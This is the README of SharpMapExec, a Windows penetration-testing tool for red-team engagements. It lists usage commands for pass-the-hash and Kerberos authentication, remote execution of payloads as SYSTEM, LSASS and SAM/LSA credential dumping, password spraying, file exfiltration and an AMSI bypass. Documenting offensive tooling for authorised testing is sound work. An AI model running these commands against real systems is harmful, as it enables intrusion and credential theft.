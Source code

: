 # SharpMapExec

A sharpen version of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec). This tool is made to simplify penetration testing of networks and to create a swiss army knife that is made for running on Windows which is often a requirement during insider threat simulation engagements.



Besides scanning for access it can be used to identify vulnerable configurations and exfiltrate data. The idea for the data exfiltration modules is to execute the least amount of necessary code on the remote computer. To accomplish this, the tool will download all the secrets to the loot directory and parse them locally.



You can specify if you want to use Kerberos or NTLM authentication. If you choose Kerberos, the tool will create a sacrificial token and use [Rubeus](https://github.com/GhostPack/Rubeus) to import/ask for the ticket. If NTLM is specified, it tool will create threads and use [SharpKatz](https://github.com/b4rtik/SharpKatz) to run SetThreadToken if an NTLM hash is specified, and if a password is specified, it will go with ordinary c# impersonation.

```
SharpMapExec.exe
  usage:

    --- Smb ---
        SharpMapExec.exe ntlm smb /user:USER /ntlm:HASH /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos smb </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

      Available Smb modules
          /m:shares

    --- WinRm ---
        SharpMapExec.exe ntlm winrm /user:USER /password:PASSWORD /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos winrm </user:USER /rc4:HASH  /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

      Available WinRm modules
          /m:exec /a:whoami                           (Invoke-Command)
          /m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
          /m:exec /a:C:\beacon.exe /delegwalk         (Invoke-Command as all signed in users)
          /m:comsvcs                                  (Dump and Parse Lsass Process)
          /m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
          /m:assembly /p:Rubeus.exe /a:dump           (Execute Local C# Assembly in memory)
          /m:assembly /p:beacon.exe /system           (Execute Local C# Assembly as System in memory)
          /m:download /path:C:\file /destination:file (Download File from Host)

    --- Domain ---
        SharpMapExec.exe kerbspray /users:USERS.TXT /passwords:PASSWORDS.TXT /domain:DOMAIN /dc:DC
        SharpMapExec.exe tgtdeleg
```

### Smb

Can be used to scan for admin access and accessible Smb shares.

Modules;
````
/m:shares                                  (Scan enumerated shares for access)
````

### WinRm

The beast. It has built-in Amsi bypass, JEA language breakout, JEA function analysis. Can be used for code execution, scaning for PsRemote access, vulnerable JEA endpoints, and data exfiltration.

Modules;

````
/m:exec /a:whoami                           (Invoke-Command)
/m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
/m:comsvcs                                  (Dump Lsass Process)
/m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
/m:assembly /p:Rubeus.exe /a:dump           (Execute Local C# Assembly in memory)
/m:assembly /p:beacon.exe /system           (Execute Local C# Assembly as System in memory)
/m:download /path:C:\file /destination:file (Download File from Host)
````

### Domain

Currently supports domain password spraying and to create a TGT for the current user that can be used with the `/ticket` parameter to get the current context.

### Example usage

For easy or mass in-memory execution of C# assemblies

![](images/mass_assembly.png)

Kerberos password spraying then scanning for local admin access

![](images/spray+admin.png)

This project supports scanning JEA endpoints and will analyze source code of non default commands and check if the endpoint was not configured for `no-language` mode.

![](images/jea.png)

Discover local admin password reuse with an NT hash.

![](images/localadmin.png)

Mass dump Lsass process with built-in Microsoft signed DLL and saves it to the `loot` folder

![](images/lsassdump.png)

Executes in all delegation processes sorted by unique by users

![](images/delegwalk.png)

Scan for SMB signing and SMBv1, Danke Pingcastle

![](images/smbvscan.png)

And much more!

Some scenarios with Kerberos will require you to sync your clock with the DC and set the DNS

```powershell
net time \\DC01.hackit.local /set
Get-NetAdapter ethernet0* | Set-DnsClientServerAddress -ServerAddresses @('192.168.1.10')
```





### Acknowledgments

Projects that helped or are existing in this tool

* [Rubeus](https://github.com/GhostPack/Rubeus)              [@Harmj0y](https://twitter.com/harmj0y)
* [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)      [@Harmj0y](https://twitter.com/harmj0y)
* [SharpKatz](https://github.com/b4rtik/SharpKatz)         [@b4rtik](https://twitter.com/b4rtik)
* [Amsi.Fail](https://github.com/Flangvik/AMSI.fail)           [@Flangvik](https://twitter.com/Flangvik)
* [SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump) [@G0ldenGunSec](https://twitter.com/G0ldenGunSec)
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)  [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)
* [Pingcastle ](https://github.com/vletoux/pingcastle)         [@mysmartlogon](https://twitter.com/mysmartlogon)
